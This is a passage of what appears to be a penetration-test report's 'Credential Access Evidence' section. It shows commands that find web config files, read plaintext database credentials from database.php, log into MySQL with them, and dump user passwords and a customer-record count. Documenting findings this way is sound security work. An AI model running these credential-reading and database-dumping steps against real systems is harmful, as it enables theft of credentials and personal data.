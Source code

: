 
### 🔑 Phase 3: Credential Access Evidence

#### Configuration File Discovery

```bash
# File System Enumeration
find /var/www -type f -name "*.php" -o -name "*.config" 2>/dev/null

/var/www/html/config/database.php
/var/www/html/admin/config.php
/var/www/html/includes/settings.inc
```

#### Database Credential Extraction

```bash
# Database Credential Extraction
cat /var/www/html/config/database.php

<?php
$db_host = "192.168.78.30";
$db_user = "app_dbuser";
$db_pass = "DbAdmin123!";
$db_name = "application_db";
?>

# CRITICAL FINDING: Plaintext database credentials exposed
```

#### Database Compromise Evidence

```bash
# Database Connection
mysql -u app_dbuser -p'DbAdmin123!' -h 192.168.78.30

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| application_db     |
| mysql              |
| performance_schema |
+--------------------+

mysql> USE application_db;
mysql> SELECT COUNT(*) FROM customer_data;
+----------+
| COUNT(*) |
+----------+
|    11717 |
+----------+

mysql> SELECT username, password FROM users LIMIT 3;
+----------+---------------+
| username | password      |
+----------+---------------+
| jsmith   | Welcome123!   |
| mjones   | April2024!   |
| kwang    | Admin@2024    |
+----------+---------------+

# EVIDENCE: 11,717 customer records + domain credentials accessible
```

---